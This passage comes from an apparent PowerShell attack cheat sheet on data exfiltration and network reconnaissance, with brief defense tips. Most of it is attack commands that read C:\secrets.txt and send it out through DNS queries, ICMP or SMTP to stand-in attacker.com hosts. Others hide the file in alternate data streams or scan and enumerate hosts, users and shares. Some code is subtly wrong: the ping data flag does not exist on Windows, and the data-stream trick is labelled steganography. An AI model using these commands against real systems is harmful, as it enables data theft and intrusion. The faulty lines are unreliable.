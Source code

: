 #### **DNS Tunneling**  
```powershell  
Resolve-DnsName -Name "$([Convert]::ToBase64String([IO.File]::ReadAllBytes('C:\secrets.txt'))).attacker.com" -Type TXT  
```  
- **Defense**: Monitor DNS queries for base64 patterns.  

#### **ICMP Covert Channel**  
```powershell  
$data = [Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\secrets.txt")); ping -n 1 -l 1000 -w 1 attacker.com -p $data  
```  
- **Defense**: Block ICMP payloads with firewalls.  

#### **Steganography in Images**  
```powershell  
Add-Content -Path "image.jpg" -Value (Get-Content C:\secrets.txt) -Stream "HiddenData"  
```  
- **Defense**: Disable NTFS Alternate Data Streams.  

#### **Exfil via SMTP**  
```powershell  
Send-MailMessage -From "user@example.com" -To "attacker@example.com" -Subject "Data" -Body (Get-Content C:\secrets.txt) -SmtpServer "smtp.attacker.com"  
```  
- **Defense**: Restrict SMTP traffic to approved servers.  

---

### **7. Reconnaissance**  
#### **Network Enumeration**  
```powershell  
1..255 | % { Test-NetConnection -ComputerName "192.168.1.$_" -Port 445 -InformationLevel Quiet }  
```  
- **Defense**: Segment networks and monitor port scans.  

#### **User Hunting**  
```powershell  
Get-WmiObject -Class Win32_UserAccount -Filter "Domain='corp'"  
```  
- **Defense**: Limit WMI access to admins.  

#### **Service Discovery**  
```powershell  
Get-Service | Where-Object { $_.Status -eq "Running" }  
```  
- **Defense**: Harden service configurations.  

#### **Share Enumeration**  
```powershell  
Get-SmbShare | Where-Object { $_.Path -like "C:\*" }  
```  
- **Defense**: Disable unnecessary SMB shares.  
